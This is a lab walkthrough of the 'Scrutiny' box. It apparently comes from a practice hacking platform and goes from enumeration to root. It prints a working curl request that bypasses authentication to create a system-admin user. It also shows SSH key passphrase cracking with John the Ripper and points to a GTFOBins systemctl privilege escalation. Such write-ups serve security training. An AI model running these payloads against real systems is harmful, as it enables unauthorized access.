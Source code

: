```yaml
---
description: Community Rating:Very hard
---
```


# Scrutiny

So i start off by enumerating open ports:

<figure><img src="../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

On the website on port 80 i go to the login page:

<figure><img src="../../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The website does not work and i need to put the webiste in my etc/hosts file as well as the vhost:

<figure><img src="../../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

then i look up at the version number for any known exploits:

<figure><img src="../../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and what stood out even more was a HackTheBox article:

<figure><img src="../../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So i tried exploiting this one, i rarely get HTB articles for a specific box so i gave it a go:

```
curl -s -X POST 'http://teams.onlyrands.com/idontexist?jsp=/app/rest/users;.jsp' -H "Content-Type: application/json" --data '{"username": "felix", "password": "felix", "email": "felix", "roles": {"role": [{"roleId": "SYSTEM_ADMIN", "scope": "g"}]}}'
```

<figure><img src="../../../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I am able to create a new admin user with ease and login:

<figure><img src="../../../.gitbook/assets/image (15) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

While looking at Queue, i look at the different stuff the freelances pushed to the instance and saw something funny:

<figure><img src="../../../.gitbook/assets/image (16) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (17) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

maybe i can use this to log in to the instance but it prompted my for a password so i tried ssh2john:

<figure><img src="../../../.gitbook/assets/image (18) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
john sshhash --wordlist=/usr/share/wordlists/rockyou.txt
```

This revealed the password and made us able to login:

<figure><img src="../../../.gitbook/assets/image (19) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Then we end up in a huge workspace with plenty of users and groups...

To find local.txt i have the following command:

```
find . -name local.txt
```

<figure><img src="../../../.gitbook/assets/image (20) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now i enumerated for a bit and remembered that there was a SMTP server, Traditionally, mail is stored in a "mail spool," a mailbox in the /var/spool/mail directory, where users are expected to retrieve it and indeed there is some nice stuff there:

<figure><img src="../../../.gitbook/assets/image (21) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (22) (1).png" alt=""><figcaption></figcaption></figure>

Ok so i was pretty lucky here, i ALWAYS ls -al in the directories of users since i already created forensics challenges where there was hidden files so i was pretty lucky to find this one without too much work:

<figure><img src="../../../.gitbook/assets/image (23) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

So now i can switch user and see the rights of this guy:

<figure><img src="../../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

so i go and look at the exploit bible:

{% embed url="https://gtfobins.github.io/gtfobins/systemctl/" %}

and this exploit was the one i already used so i went with it once again:

<figure><img src="../../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

and now we can simply use the GTFObins exploit:

<figure><img src="../../../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (76).png" alt=""><figcaption></figcaption></figure>
